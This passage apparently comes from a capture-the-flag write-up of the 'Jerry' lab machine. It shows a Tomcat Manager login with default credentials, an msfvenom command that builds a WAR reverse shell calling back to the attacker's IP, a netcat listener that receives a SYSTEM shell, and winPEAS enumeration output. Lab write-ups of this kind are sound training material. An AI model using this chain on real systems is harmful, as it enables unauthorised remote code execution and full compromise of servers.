 I need to clear the browser cache and again clicked on the "Manager App" to load the Login box where I provided the default credentials and it worked. Now time to upload the WAR file and get a reverse shell.

The following command was used to generate the JSP shell 
```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.5 LPORT=4444 -f war > shell.war
Payload size: 1088 bytes
Final size of war file: 1088 bytes
```

Now uploading the shell.war file and starting the listener. This shell.war file was uploaded as an application and deployed.

```
$ nc -lvnp 4444                                       
listening on [any] 4444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

Although, The reverse shell gave me the "NT AUTHORITY\SYSTEM" shell, there was no folder for any other user. The "Administrator" folder was present but no sign of root.txt file. Clearly it is trap. I will now use winPEAS.bat to enumerate the machine. I can also use the local_exploit_suggester. The Local_Exploit_Suggester did not suggest any exploit. Trying winPEAS.bat now.

Findings for winPEAS.bat are posted below.

```
Host Name:                 JERRY                                                                                                                        
OS Name:                   Microsoft Windows Server 2012 R2 Standard     
OS Version:                6.3.9600 N/A Build 9600 
Hotfix(s):                 142 Hotfix(s) Installed.

[+] Number of cached creds                                                                                                                              
    [i] You need System-rights to extract them
    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    CACHEDLOGONSCOUNT    REG_SZ    10 

[+] UAC Settings                                                                                                                                       
    [i] If the results read ENABLELUA REG_DWORD 0x1, part or all of the UAC components are on
    [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#basic-uac-bypass-full-file-system-access
    HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1  

[+] ENVIRONMENT                                                                                                                                             [i] Interesting information?
	Path=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Program Files\Java\jdk1.8.0_171\bin; 
	PROCESSOR_ARCHITECTURE=AMD64
	PSModulePath=C:\Windows\system32\WindowsPowerShell\v1.0\Modules\

[+] INSTALLED SOFTWARE     
   [i] Some weird software? Check for vulnerabilities in unknow software installed  
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software  
	Internet Explorer           
	Internet Explorer           
	Java          
```